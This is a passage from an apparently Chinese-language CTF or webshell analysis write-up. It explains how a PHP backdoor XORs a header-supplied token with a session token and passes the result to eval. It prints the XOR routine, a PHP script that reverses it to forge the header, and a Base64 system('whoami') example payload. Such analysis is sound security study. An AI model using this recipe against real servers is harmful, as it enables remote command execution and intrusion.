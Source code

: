 由此可知，`$p` 为 `set_token($v, $_SESSION['token'])` 的执行结果，所以我们要控制 `set_token($v, $_SESSION['token'])` 的内容才能成功执行命令

-   `$v` 参数：从 HTTP 请求头获取名为 "HTTP\_X\_CSRF\_TOKEN" 的值，并进行 Base64 解密再讲值重新赋给 `$v`
-   `$_SESSION['token']` 参数：给服务器发一个 `TOKEN` 值，会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过 HTTP 头部返回给客户端

明白了两个参数都是从哪来的之后，我们再来看函数 `set_token()`：

```bash
function set_token($v,$t) {
    $r="";
    for ($x=0; $x<strlen($v);$x++) {
        if(($x+1)%strlen($t)!=0) {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
        } else {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
        }
    }
    return $r;
}
```

简单来说，函数 `set_token($v, $t)` 就是一个加密算法，作用是根据输入的两个字符串 `$v` 和 `$t`，返回一个新的字符串 `$r`  
该函数采用异或（XOR）操作对两个字符串的每个字符进行逐一处理，并将结果拼接成新的字符串返回

而返回的 `$r` 变量，最终会传入 `@new E($r)`，进行 Base64 解密并放入高危函数 `eval` 内执行

打个比方，假设我们想执行系统命令 `whoami`，那 `$r` 变量就应该是 `system('whoami');` Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`  
而 `$r` 变量又是 `set_token($v, $_SESSION['token'])` 的加密结果，看上去很清晰，那目前我们的困境是什么？

那就是我们不知道 `$v` 应该传什么值！！！我们目前只知道 `$t=>$_SESSION['token']` 和执行的最终结果 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，那我们能不能通过这两个变量获得 `$v`呢，当然可以！！！

```bash
<?php
function decrypt_token($r, $t) {
    $v = "";
    for ($x = 0; $x < strlen($r); $x++) {
        if (($x + 1) % strlen($t) != 0) {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), ($x + 1) % strlen($t))));
        } else {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), 16)));
        }
    }
    return $v;
}

// 已知的 $t 和 $r 的值
$t = $_POST['token'];  //已知的 $t 的值
$r = $_POST['out'];  //"c3lzdGVtKCd3aG9hbWknKTsg" 已知的 $r 的值

// 解密已知的 $r 值得到 $v
$v = decrypt_token($r, $t);
echo base64_encode($v);
```
